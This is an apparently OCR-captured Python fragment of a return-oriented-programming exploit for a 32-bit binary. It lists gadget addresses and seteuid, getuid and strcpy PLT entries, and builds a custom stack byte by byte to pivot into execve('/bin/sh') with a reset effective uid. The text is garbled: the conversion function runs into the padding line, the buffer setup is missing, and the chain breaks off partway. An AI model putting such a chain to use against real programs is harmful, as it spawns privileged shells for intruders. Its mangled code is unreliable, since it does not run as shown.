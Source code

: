 ``` python
g4 = 0x080485b3
g5 = 0x08048380
g6 = 0x080485cd
g7 = 0x08048498
dummy = 0xdeadbeef
esi = 0x01020101
edi = 0x01020102
ebx = 0x3fc9c18               #ebx = 0x8049f3c - (esi*4) + 0xe0
off = 0xfffff530
#Custom Stack
#0x804a360 - Dummy EBP|seteuid@PLT|getuid@PLT|seteuid_arg|execve_arg1|execve_arg2|execve_arg3
cust_esp = 0x804a360          #Custom stack base address
cust_base_esp = 0x804a360     #Custom stack base address
#seteuid@PLT 0x80483c0
seteuid_oct1 = 0x8048143      #08
seteuid_oct2 = 0x8048130      #04
seteuid_oct3 = 0x8048355      #83
seteuid_oct4 = 0x80481cb      #c0
#getuid@PLT 0x80483b0
getuid_oct1 = 0x8048143       #08
getuid_oct2 = 0x8048130       #04
getuid_oct3 = 0x8048355       #83
getuid_oct4 = 0x80483dc       #b0
#seteuid_arg 0x00000000
seteuid_null_arg = 0x804a360
#execve_arg1 0x804ac60
execve_arg1_oct1 = 0x8048143  #08
execve_arg1_oct2 = 0x8048130  #04 
execve_arg1_oct3 = 0x8048f44  #AC 
execve_arg1_oct4 = 0x804819a  #60
#execve_arg2 0x804ac68
execve_arg2_oct1 = 0x8048143  #08
execve_arg2_oct2 = 0x8048130  #04 
execve_arg2_oct3 = 0x8048f44  #AC 
execve_arg2_oct4 = 0x80483a6  #68
#execve_arg3 0x00000000
execve_null_arg = 0x804a360
execve_path_dst = 0x804ac60   #Custom stack location which contains execve_path "/bin/sh"
execve_path_oct1 = 0x8048154  #/
execve_path_oct2 = 0x8048157  #b
execve_path_oct3 = 0x8048156  #i
execve_path_oct4 = 0x804815e  #n
execve_path_oct5 = 0x8048162  #s
execve_path_oct6 = 0x80483a6  #h
execve_argv_dst = 0x804ac68   #Custom stack location which contains execve_argv [0x804ac60, 0x0]
execve_argv1_oct1 = 0x8048143 #08
execve_argv1_oct2 = 0x8048130 #04 
execve_argv1_oct3 = 0x8048f44 #AC 
execve_argv1_oct4 = 0x804819a #60
strcpy_plt = 0x80483d0        #strcpy@PLT
ppr_addr = 0x080485ce         #popl %edi ; popl %ebp ; ret ;
#Stack Pivot
pr_addr = 0x080484a3          #popl %ebp ; ret ;
lr_addr = 0x08048569          #leave ; ret ;
#endianess convertion
def conv(num):
 return struct.pack("<I",num* 268 #Junk
buf += conv(g7)               #movb $0x1,0x804a028; add esp, 0x04; pop ebx; pop ebp; ret;
buf += conv(dummy)
buf += conv(dummy)
buf += conv(dummy)
buf += conv(g6)               #pop esi; pop edi; pop ebp; ret;
buf += conv(esi)              #esi
```